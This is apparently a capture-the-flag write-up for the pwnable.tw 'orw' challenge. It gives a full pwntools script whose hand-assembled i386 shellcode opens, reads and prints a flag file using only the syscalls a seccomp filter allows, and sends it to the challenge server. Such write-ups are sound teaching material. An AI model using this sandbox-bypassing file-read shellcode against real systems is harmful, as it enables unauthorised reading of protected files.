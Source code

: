 ```yaml
---
title: "pwnable.tw orw Writeup"
date: "2019-10-12"
draft: "false"
---
```


>Read the flag from /home/orw/flag.
>Only open read write syscall are allowed to use.


## Environment

```sh
$ uname -a
Linux base-debootstrap 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

## Findings
This file is 32bit ELF file.

```sh
$ file ./orw 
./orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

Disassemble result.

![](https://i.imgur.com/KoydAxy.png)

This file read shellcode and execute it, but since seccomp is used, system calls other than `open`, `read`, and `write` cannot be used.
So we need write shellcode that only used `open`, `read`, and `write`.

## Writeup
I wrote shellcode that only used `open`, `read`, `write` syscalls.
(Reffer: https://syscalls.kernelgrok.com/ )

```python
from pwn import *

HOST = 'chall.pwnable.tw'
PORT = 10001

context(os='linux', arch='i386')
context.log_level = 'debug'

shell_code = asm('\n'.join([
    'push %d' % u32('ag\0\0'),
    'push %d' % u32('w/fl'),
    'push %d' % u32('e/or'),
    'push %d' % u32('/hom'), # Flag path
    'mov edx, 0', # Mode
    'mov ecx, 0', # Open syscall flag
    'mov ebx, esp', # Buffer
    'mov eax, 5', # Open syscall number
    'int 0x80',

    'mov edx, 128', # Count
    'mov ecx, esp', # Buffer
    'mov ebx, eax', # fd
    'mov eax, 3', # Read syscall number
    'int 0x80',

    'mov edx, eax', # Count
    'mov ecx, esp', # Buffer
    'mov ebx, 0', # fd
    'mov eax, 4', # Write syscall number
    'int 0x80',
]))

# for executing code on remote or local
if len(sys.argv) > 1 and sys.argv[1] == '-r':
    conn = remote(HOST, PORT)
else:
    conn = process('./orw')

log.info('Pwning start')
conn.recvuntil("Give my your shellcode:")
conn.sendline(shell_code)
conn.recvall()
```